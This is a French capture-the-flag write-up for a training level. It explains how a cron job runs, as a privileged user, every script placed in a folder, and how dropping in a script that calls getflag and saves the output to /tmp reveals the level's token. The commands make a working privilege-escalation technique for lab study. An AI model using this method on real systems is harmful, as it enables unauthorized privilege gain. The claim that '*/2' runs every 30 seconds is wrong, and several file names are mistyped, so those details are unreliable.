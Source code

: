 Dès qu'on se connecte au level05, une notif apparait:
<pre><code>You have new mail.</code></pre>

On fait un cat du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tache cron dont le format est le suivant:
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> Donc toutes les 30 secondes la tâche: <code>su -c 'sh /usr/sbin/openarenaserver"</code> va s'executer

On cat le fichier <code>/usr/sbin/openarenaserve</code> ce qui nous donne:
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do // Pour chaque fichier dans le dossier
		(ulimit -t 5; bash -x "$i")	 // Avec un interval de 5 sc, executer le fichier
		rm -f "$i"					 // Supprimer le fichier
done
```

L'idée est de creer un fichier que l'on va mettre dans le dossier <code>/opt/openarenaserver/</code> afin qu'il s'exectue des que la tâche cron s'active:
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> On stocke dans <code>/tmp/token</code> le resultat car cron s'effectue en background et n'affiche pas de message


Il nous suffit de faire des ls de <code>/opt/openarenaserver/</code> et d'attendre que le ficher .sh se fasse supprimer pour savoir quand la tâche a été effectuée, ainsi il ne nous reste plus qu'a recuperer le flag:
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>